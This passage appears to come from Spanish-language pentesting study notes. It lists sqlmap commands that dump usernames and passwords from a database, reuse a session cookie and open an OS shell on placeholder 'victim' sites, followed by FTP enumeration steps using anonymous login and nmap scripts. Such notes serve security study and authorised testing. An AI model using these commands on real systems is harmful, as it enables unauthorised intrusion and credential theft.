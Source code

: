    sqlmap -u 'http://<IP máquina víctima>' --forms -D Webapp -T Users -C username,password --dump --batch
    ```

    Para parametros que sabemos vulnerables

    ```bash
    sqlmap -u '<http://victim.site/view.php?id=1141>' -p id
    ```

    Cuando estamos autenticados como algún usuario,

    ```bash
    sqlmap -u '<http://victim.site/dashboard.php?search=1>' --cookie "PHPSESSID=a3tqcq298ggfth9njj2mgg6ch1"
    ```

    Para ejecutar comandos de sistema:

    ```bash
    sqlmap -u '<http://victim.site/dashboard.php?search=1>' --os-shell
    ```

### Enumeracion

#### Enumeración de servicios

#### Port 21 | FTP

Conexión con usuario anónimo por defecto:

```bash
ftp <IP>
>anonymous
>anonymous
```

Escaneo con Nmap para servicio FTP

```bash
# Enumeración versión ftp

nmap -sV -p 21 --open <IP>

# Verificar conexión anonima

nmap --script=ftp-anon -p21 10.10.14.12

# Todos los scripts de nmap para puerto 21

nmap --script ftp-* -p 21 <IP>

# Para ver los scripts relacionados con FTP

find / -type f -name ftp* 2>/dev/null | grep scripts

/usr/share/nmap/scripts/ftp-syst.nse
/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse
/usr/share/nmap/scripts/ftp-bounce.nse
/usr/share/nmap/scripts/ftp-libopie.nse
/usr/share/nmap/scripts/ftp-anon.nse
/usr/share/nmap/scripts/ftp-brute.nse
```
